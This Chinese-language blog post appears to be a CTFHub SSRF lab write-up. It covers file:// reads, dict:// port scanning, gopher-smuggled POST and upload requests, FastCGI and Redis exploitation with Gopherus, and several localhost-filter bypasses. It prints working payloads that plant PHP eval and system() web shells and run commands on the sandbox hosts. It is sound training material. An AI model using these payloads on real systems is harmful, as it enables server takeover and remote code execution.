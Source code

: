 ```yaml
---
layout: post
title: CTFHub Web SSRF
subtitle: CTFHub Web SSRF
date: 2025-07-02 17:13
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - CTFHub
published: true
---
```

## 1. SSRF

### 1.1. 内网访问

访问 `[http://127.0.0.1/flag.php](http://127.0.0.1/flag.php)`

### 1.2. 伪协议读取文件

```url
http://127.0.0.1/flag.php
```

读取到？？？说明文件存在

```url
php://filter/read=convert.base64-encode/resource=http://127.0.0.1/flag.php
#都失败，尝试file 以绝对路径读取
file:///var/www/html/flag.php
# 成功读取
```

### 1.3. 端口扫描

```url
dict://127.0.0.1:8080
```

bp 抓包设置 payload

![image](https://img.ghostliner.top/bDrLb5.png)

8586 有报错响应

![image](https://img.ghostliner.top/yPlCCB.png)

![image](https://img.ghostliner.top/Vbh1mE.png)

### 1.4. POST 请求

`http://127.0.0.1/flag.php`

![image](https://img.ghostliner.top/QlbERd.png)

填入 key 提交

![image](https://img.ghostliner.top/x9sNEU.png)

URL 二次编码，第一次 URL 编码后将 `%0A` 替换为 `%0D0A`

```http
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-a4e82c2602cbeef6.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250Akey%253Df16bc01bbf8a2ebfca9d9f7a01b7947e
```

![image](https://img.ghostliner.top/PMio40.png)

![image](https://img.ghostliner.top/4CK7Af.png)

### 1.5. 上传文件

![image](https://img.ghostliner.top/SptxW5.png)

添加 submit，提交 bp 抓包

![image](https://img.ghostliner.top/8LGHnz.png)

![image](https://img.ghostliner.top/26b8Pf.png)

第一次 URL 编码，并将 `%0A` 替换为 `%0D0A`

```http
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AUser-Agent%3A%20Mozilla%2F5.0%20(Windows%20NT%2010.0%3B%20Win64%3B%20x64%3B%20rv%3A140.0)%20Gecko%2F20100101%20Firefox%2F140.0%0D%0AAccept%3A%20text%2Fhtml%2Capplication%2Fxhtml%2Bxml%2Capplication%2Fxml%3Bq%3D0.9%2C*%2F*%3Bq%3D0.8%0D%0AAccept-Language%3A%20zh-CN%2Czh%3Bq%3D0.8%2Czh-TW%3Bq%3D0.7%2Czh-HK%3Bq%3D0.5%2Cen-US%3Bq%3D0.3%2Cen%3Bq%3D0.2%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AContent-Type%3A%20multipart%2Fform-data%3B%20boundary%3D----geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Length%3A%20266%0D%0AOrigin%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%0D%0AConnection%3A%20close%0D%0AReferer%3A%20http%3A%2F%2Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%3A10800%2F%3Furl%3D127.0.0.1%2Fflag.php%0D%0AUpgrade-Insecure-Requests%3A%201%0D%0APriority%3A%20u%3D0%2C%20i%0D%0A%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1%0D%0AContent-Disposition%3A%20form-data%3B%20name%3D%22file%22%3B%20filename%3D%22shell.php%22%0D%0AContent-Type%3A%20application%2Foctet-stream%0D%0A%0D%0A%3C%3Fphp%20echo%20123%3B%40eval(%24_POST%5B'code'%5D)%3B%3F%3E%0D%0A------geckoformboundary51834e26d074966e704b418761d460d1--
```

第二次 URL 编码

```http
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520challenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%253B%2520rv%253A140.0)%2520Gecko%252F20100101%2520Firefox%252F140.0%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252C*%252F*%253Bq%253D0.8%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.8%252Czh-TW%253Bq%253D0.7%252Czh-HK%253Bq%253D0.5%252Cen-US%253Bq%253D0.3%252Cen%253Bq%253D0.2%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Length%253A%2520266%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%250D%250AConnection%253A%2520close%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-b9fff0bf1f4b1a36.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250APriority%253A%2520u%253D0%252C%2520i%250D%250A%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520echo%2520123%253B%2540eval(%2524_POST%255B'code'%255D)%253B%253F%253E%250D%250A------geckoformboundary51834e26d074966e704b418761d460d1--
```

![image](https://img.ghostliner.top/lh8WV5.png)

成功

![image](https://img.ghostliner.top/PtzdFG.png)

### 1.6. FastCGI 协议

安装 gopherus

```shell
git clone https://github.com/tarunkant/Gopherus.git
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
./install.sh
```

生成 exploit

```shell
python2 gopherus.py --exploit fastcgi
/var/www/html/index.php
echo PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4= | base64 -d >/var/www/html/shell.php
```

![image](https://img.ghostliner.top/b5W2ZA.png)

进行一次 URL 编码

```http
_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2505%2505%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2503CONTENT_LENGTH134%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%2586%2504%2500%253C%253Fphp%2520system%2528%2527echo%2520PD9waHAgZXZhbCgkX1BPU1RbJ2NvZGUnXSk7Pz4%253D%2520%257C%2520base64%2520-d%2520%253E%2Fvar%2Fwww%2Fhtml%2Fshell.php%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

![image](https://img.ghostliner.top/52K3Us.png)

![image](https://img.ghostliner.top/nCFdDK.png)

蚁剑连接 `[http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php](http://challenge-ab6a103940705427.sandbox.ctfhub.com:10800/shell.php)` 成功

![image](https://img.ghostliner.top/UfQZcD.png)

### 1.7. Redis 协议

```url
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/?url=dict://127.0.0.1:6379
```

gopherus 生成 exploit

![image](https://img.ghostliner.top/DQG6Gh.png)

url 编码

```http
gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

![image](https://img.ghostliner.top/I2Q7yK.png)

响应返回 504，访问 shell.php 成功

```url
http://challenge-2330ba3a9a6a7458.sandbox.ctfhub.com:10800/shell.php?cmd=ls
```

![image](https://img.ghostliner.top/i2e5HJ.png)

```html
?cmd=ls /
?cmd=cat /flag_eb4d87188e48c82b40fe59e7eb88ee74
```

![image](https://img.ghostliner.top/9BFiU5.png)

![image](https://img.ghostliner.top/yiAmiC.png)

### 1.8. URL Bypass

```html
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php # 协议://user@url
```

![image](https://img.ghostliner.top/K5Juek.png)

### 1.9. 数字 IP Bypass

```html
?url=http://localhost/flag.php
```

![image](https://img.ghostliner.top/m01Wgk.png)

```html
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433
16进制整数格式：0x7F000001
```

### 1.10. 302 跳转 Bypass

```html
?url=http://localhost/flag.php
```

![image](https://img.ghostliner.top/DLpi1u.png)

### 1.11. DNS 重绑定 Bypass

```html
?url=http://www.baidu.com/index.html #可访问域名
```

添加 DNS A 记录为 127.0.0.1

```html
?url=http://local.ghostliner.top/flag.php
```

![image](https://img.ghostliner.top/euq74T.png)

